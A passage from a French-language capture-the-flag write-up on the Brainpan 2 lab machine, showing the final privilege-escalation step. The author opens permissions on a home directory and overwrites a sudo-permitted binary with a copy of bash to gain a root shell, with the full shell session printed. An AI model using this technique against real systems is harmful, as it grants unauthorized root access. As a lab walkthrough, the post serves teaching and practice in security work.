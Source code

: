 On trouve les chaines de caractères suivantes dans le binaire :  

```plain
/sbin/ip
/usr/bin/man
/usr/bin/top
```

Rien de plus à voir, d'ailleurs peut importe, il nous suffit de le remplacer par bash pour profiter des droits sudo de *Puck*.  

Le problème venait des droits sur */home/anansi* qui ne nous laissaient pas traverser jusqu'au binaire :  

```shellsession
anansi@brainpan:/home/anansi$ ls -ld .
drwx------ 4 anansi anansi 4096 Mar  4  2013 .
anansi@brainpan:/home/anansi$ chmod o+rx .
anansi@brainpan:/home/anansi$ ls -ld .
drwx---r-x 4 anansi anansi 4096 Mar  4  2013 .
anansi@brainpan:/home/anansi$ cd bin/
anansi@brainpan:/home/anansi/bin$ ls
anansi_util
anansi@brainpan:/home/anansi/bin$ mv anansi_util sav_anansi_util
anansi@brainpan:/home/anansi/bin$ cp /bin/bash anansi_util
anansi@brainpan:/home/anansi/bin$ exit
$ id
uid=1001(anansi) gid=1002(puck) groups=1001(anansi),1002(puck)
$ 
puck@brainpan:~$ sudo -l
Matching Defaults entries for puck on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util
puck@brainpan:~$ sudo /home/anansi/bin/anansi_util
root@brainpan:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Pas de flag mais un fichier avec un ascii art dans */root/b.txt*.  

Un challenge agréable comme c'était le cas pour la première édition :)

*Published August 26 2014 at 08:13*
